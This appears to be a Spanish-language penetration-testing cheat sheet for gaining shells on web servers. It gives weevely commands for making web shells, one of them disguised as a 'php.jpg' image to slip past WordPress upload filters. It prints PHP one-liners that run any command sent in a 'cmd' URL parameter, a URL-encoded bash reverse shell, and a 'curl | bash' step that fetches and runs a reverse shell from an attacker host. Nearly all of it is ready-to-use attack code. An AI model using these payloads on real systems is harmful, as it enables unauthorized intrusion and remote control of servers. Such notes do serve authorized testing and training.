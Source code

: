 ```bash 
# Crear archivos de Revershell 
❯ weevely generate password ~/Desktop/weevely.jpg    # Crear un archivo con la extensión que nos deja subir 
❯ weevely generate password /root/shell.php.jpg      # Crear una revershell con extensión 'php.jpg' para pasar el filtro en WordPress de cargar imagenes 
```

```
# Conectarse a Weevely
❯ weevely https://IP/uploads/weevely.jpg/weevely.php password cmd   # Crear una revershell con la petición 'http request'
	❯ :help                         # Muestra los comandos que podemos utilizar 
	❯ :system_info                  # Muestra la info del sistema 

❯ weevely https://IP/uploads/shell.php password     # Otra forma de conectarse a Weevely obteniendo la Revershell
	❯ ls                            # Listamos el contenido 
```

## RCE en Web

```php
# Para ejecutar comandos en la Web debemos de crear o subir un archivo en el /var/www/html con el siguiente contenido: 

❯ nano cmd.php

	<?php 
		echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
	?>

# Las etiquetas que usamos ahí son 'Pre' de preformateadas y nos sirven para que nos muestre bien el Output. Ya con ese archivo y que la Web interprete 'php' podemos colocar en la url (?cmd=) para colocar comandos y ver que Shell podriamos usar para conectarmos a nuestra maquina de 'Atacante'

# Otra manera 
	<?php 
		$output = shell_exec($_GET["cmd"]);
		echo "<pre>$output</pre>";
	?>

# Colocare la revershell en la web 
❯ ?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.50.129%2F4444%200%3E%261%27
```

## Index.html

```bash
❯ nano index.html

	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.2/443 0>&1

	# IP = IP de atacante
	# 443 = Puerto a usar


❯ curl ❮IP❯ | bash    # Lo que hace Curl es obtener un index.html del servidor y despues con el bash haremos que nos interprete la data en bash
```
